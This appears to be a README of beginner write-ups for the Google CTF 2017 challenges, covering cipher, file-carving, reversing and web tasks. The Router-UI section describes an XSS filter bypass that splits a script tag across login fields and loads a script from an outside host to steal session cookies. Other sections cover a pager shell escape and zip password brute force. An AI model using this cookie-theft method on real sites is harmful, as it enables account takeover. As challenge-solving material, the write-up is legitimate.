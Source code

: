 # Google 2017, Capture the Flag, Begginer's Quest

## Symbol chart

* BY HAND: means that the solution is reached by simple deductions, using standard tools or with tools downloaded from some source.

* WITH SCRIPT: means that the creation of some file/script was neccesary. Those files will be in this repository.

## Letter: 
==BY HAND==

It's a PDF file. One can simply select and copy the text.

## OCR IS COOL: 
==BY HAND==

While the intention of the challange is to make us use OCR (Optical Character Recognition) and Caesar, one can easily skip the first part. That's because a snippet that reads <THREE LETTERS>{<LETTERS>} can be easily found by hand. Since Caesar only changes the letters around (and there is no other "XXX{<LETTERS>}"), we can be sure this has to be the flag. 

We can see that the distance between "VMY" and "CTF" is 7 to the right. This means a shift 7 is required to convert the former to the latter. With this in mind, we simply apply a "Caesar guesser" (for example, https://cryptii.com/caesar-cipher) with shift 7 to this snippet and we should get the answer.


## MOAR: 
==BY HAND==

This one was pretty obscure, and required me to look for external help. Apparently, MAN uses MORE to display itself (as a pager). MORE allows writting "!" to input a command outside the program itself. Using traditional navigation commands (!ls), one can navigate to a folder that has a file with the password. There you can simply use the command to dump a file in the terminal. (!cat)

## Floppy: 
==WITH SCRIPT==

By examining the file with a Hexeditor one can notice that there are a few items after a long sequence of 0's. Both of these items have names, and are pretty similar to what a .zip file Hex-information would look like. 

We run a python code to remove everything before that long sequence of "0" is finished. The final result then can be unzipped from the resulting file. (If the resulting file hadn't been a zip, we could have run a "file-format guesser" instead)

## Security by Obscurity: 
==WITH SCRIPT==

By using a Hexeditor one can notice the file is zipfile. After decompression it can be seen that the result is also a zipfile. We keep repeating this proccess iteratively until we can no longer decompress (a.k.a. until we find an error).

From that point onwards, we check the format of the file (with a format guesser) and repeat the proccess with the new compression format. We got from "zip" to "xz" to "bz2" to "gzip". We end up with a single encrypted "gzip" file that contains a ".txt." with the flag. 

Currently, I am unsure if the password to disencrypt the zip happens to be intentionally hidden somewhere on the files or in some sequence. Without any sort of clue, an external tool to crack the password is required. Brute force can be used, but only because the password happens to be fairly trivial. An example of a tool that does this is python-zip-cracker (https://github.com/josh-newton/python-zip-cracker). In the end, the flag can be extracted from the disencrypted file. 

## JS Safe: 
==WITH SCRIPT==

Looking at the source code, one can realize that the password is the value that makes the function "x" return True. By extention, that means that the solution is the one that allows env[h] to remain as 0. Since we have access to the source-code, we trim everything down except for the "x" function. Inside the "x" function there is a loop whose values (storage_address, function, value1, value2) are dictated by the string named "code". To properly work with this we add a generic "debugger" function before each execution of loop.

Using the previous function, one can create a custom-made debugger that prints the values only when a certain letter appears as "storage_address" of the operation. From there we can evaluate how the value of each letter is produced. That examination yielded the following result:

* h: The value of this letter is the result of applying the bitwise "or" operation in sequence to the values of "small Koppa" (cyrillic character). In other words, to get env[h] = 0 we need to make sure "small Koppa" = 0 every time. 

* small koppa: This letter simply copies it's value from "thousand" (cyrillic character).

* thousand: This letter is the result of a bitwise "xor" operation applied to pairs of "big koppa"(cyrillic character). Since "small koppa" needs to be 0, "thousand" also needs to be 0, consecutive "big koppa" pairs must be identical between them to force the "xor" operation to yield 0 here.

* big koppa: Each consecutive pair is formed by a value of "small ot" (cyrillic character) and a fixed character (A.K.A. a character that does not depend on the password). These fixed characters can be easily extracted by using our debugger function.

* small ot: This letter takes it's values (one by one) from an array in "big ot" (cyrillic character).

* big ot: It's the result of a single function, in which "Uint8Array" is called on "small uk" (cyrillic character).

* small uk: This letter is defined by applying "sha-256" over our password.

So, going bottoms-up we get that: 

* Our password is hashed with sha-256. =>  Then compared to fixed set of characters (which it must match), resulting in 0 => The following operations are idempotent in 0. => The final result is 0, which yields "true"  when asked "not" => So env[h] = 0 if the hash of our password matches the fixed characters.

The final step is to transform the list of fixed values into hex. (this can be done by hand or by using python. A simple map of 'lambda x: ("0" if int(x) < 16 else "") + hex(int(x))[2:]' does it fast and cleanly) Following the advice in the commented code (search with google), the original value can be found.

# Router-UI: 
==WITH SCRIPT==

The excercise is clear about needing one to make a "phishing campaing" with xss. 

By looking at the page after completing the form, one can see we get the string [username+'//'+password] displayed on the page. Writting commands like [<script>alert(1)</script>] gets captured by Chrome's anti-xss, so it is not that straightforward. The way to bypass this is by splitting the "<script>" markup between the username and password, making use of the '//' inside the tag. This way '<script url="'+'//'+'webpage"></script>' becomes a viable way to avoid being captured by the anti-xss.

Since this is a phishing campaign, there is the need to set up both [a] a landing page and [b] a channel to receive the reflected information. To make things fast (and free) I decided to use "https://www.freewebhostingarea.com" to host the landing page and "https://xsshunter.com" to handle the information reception. (xsshunter has javascript scripts that read information from the host, including -but not limited to- cookies)

The landing page itself is pretty trivial, it posts username and password to the challenge's page, with the webpage being the url of our xsshunter javascript page. The only non-obvious piece of information is that, since some parts of the input worked weird in html/javascript, I had to "encode" the text and "decode" it dynamically during execution.

After sending the mail with the landing page, xsshunter will capture the cookie of the session. Creating a cookie with those values will allow us to enter the page as if we were the real user. Looking at the source-code of the page we can find the FLAG in plaintext as a value of an input field. 

# Floppy 2: 
==BY HAND ==

The task at hand is to understand the ".com" file we got in "Floppy". Looking online, "com" files were executables in DOS.  After lurking around, I found that DOS files are very hard to decompile or reverse-engineer, our best chance is to debug it on the fly and see what we can find. For this, we could use either use FreeDOS or DOSBOX.

To debug I used a tool called "Enchanced DEBUG" (clone of "MS-DEBUG", found here: https://sites.google.com/site/pcdosretro/enhdebug). Using it's interface, one can go to a randombly high direction to reach the end of the program execution (example: "-g 200") and dump the memory of the process by issuing the dump comamand("-d") and then hitting ENTER a few times. The flag can be found in plain-text resting in the middle of the code.